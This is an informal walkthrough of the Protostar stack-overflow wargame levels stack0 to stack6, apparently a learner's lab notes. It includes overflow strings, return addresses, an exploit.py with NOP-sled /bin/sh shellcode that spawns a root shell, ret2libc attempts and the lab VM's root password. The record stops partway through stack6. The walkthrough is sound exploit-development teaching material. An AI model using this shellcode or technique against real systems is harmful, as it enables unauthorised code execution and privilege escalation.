 ##Stack0
from disassemble we notice that

```
lea eax, dword [local_1ch]
...
test eax, eax
je 0x8048427
```

so `modified` is stored as `eax` in stack
and we need try to overwrite this `eax`
as the address of `eax` is just after `buffer` in stack
so we just need input a string like `"A" * 64`

##Stack1
just like `stack0` just this time we need change modified to `0x61626364` which is `dcba` 
so the input is `'a'*64+'dcba'`

##Stack2
same as before just need set environment variable `GREENIE` with hex`0x0a0d0a0d`
so `export GREENIE=$'A..(64)\x0a\x0d\x0a\x0d'` this `$` is important here

##Stack3
still easy, we want the `win` function be called, which just need rewrite the `fp`
so use `gdb` to get the address of `win`(or just use r2 haha which I used)
```
> aaaa
> afl
```
then we get the `win` address is `0x08048424`
so just `print -c "print 'A'*64 + '\x24\x84\x04\x08'" | ./stack3`

##Stack4
we need overflow and change the EIP now
using `gdb-peda` we know that overflow to EIP need 76 chars
`python -c "print 'A' * 76 + '\xf4\x83\x04\x08" | ./stack4`

##Stack5
same as stack4, just we need inject shellcode this time
overflow to EIP need 76 chars

ok I tried inject shellcode in buffer and in the modified eip address all didn't work for me
this one is really tricky
then I run it in root mode `username=root, password=godmode` btw I do love this password! and turn on the `core dump`
`ulimit -c unilimited`
`echo "/tmp/core.%t" > /proc/sys/kernal/core_pattern`
in case of that the real stack address while overflow happened might be different
and well this time my code was sorta hmm work, as no error, but also no shell!!!

so I checked the Video from `Liveoverflow` then I get some idea from it(from sploier haha)
* use lots and lots `NOP` to deal with the stack keep changing issue, well I tried to use `ROP` to deal this before, BUT sadly it didn't call `system`!!! Well on the other side finally I understand why `NOP` is so important!
* and run exploit like this `(python exploit.py; cat) | ./stack5`. yes the `cat` is the key, as it is like this, `stack5` expect an input and so we give it `bash` as input then the `pipe` die, and OVER haha, so we need a cat here

OK seems perfect, I shall go now
and YES it works!

ok here is the code
```
exploit.py

import struct

junk = "A" * 76
eip = struct.pack('I', 0xbffff81c + 30)
nopslide = "\x90" * 100
payload = "\x31\xc0\x50\x68\x2f\x2f\x73"
payload += "\x68\x68\x2f\x62\x69\x6e\x89"
payload += "\xe3\x89\xc1\x89\xc2\xb0\x0b"
payload += "\xcd\x80\x31\xc0\x40\xcd\x80"

print junk+eip+nopslide+payload
```

`(python exploit.py ; cat) | /opt/protostar/bin/stack5`
and there is the root shell!

##Stack6

haha took some time to get what's this challenge
so if I change the `ret` address to somewhere in stack(`0xbf000000`) it will exit.
thus I need to overflow it somewhere else such as `'/bin/sh'` in system
that's why the hint mentioned ret2libc

```
>(gdb) print system
0xb7ecffb0 <__libc_system>
>(gdb) print __libc_start_main
0xb7eadb90 <__libc_start_main>
>(gdb) find 0xb7eadb90, +2200000, "/bin/sh"
0xb7fba23f
```
but I used these information as payload (junk + systemsaddr + 0xdeadbeef + binaddr) and get `Segmentation fault`
then I find out this `/bin/sh` address is just FAKE, well using `x/s` on it it is not at bash all

so I am thinking, I should write a `/bin/sh` in somewhere like `.bss`

`readelf -S stack6`
I think we can write in `.bss` `.data` `.text` there are more space in `.text`


```
0x8048577 : pop edi ; pop ebp; ret
```
geez no good `mov;ret`
oh also tricky, keep tomorrow

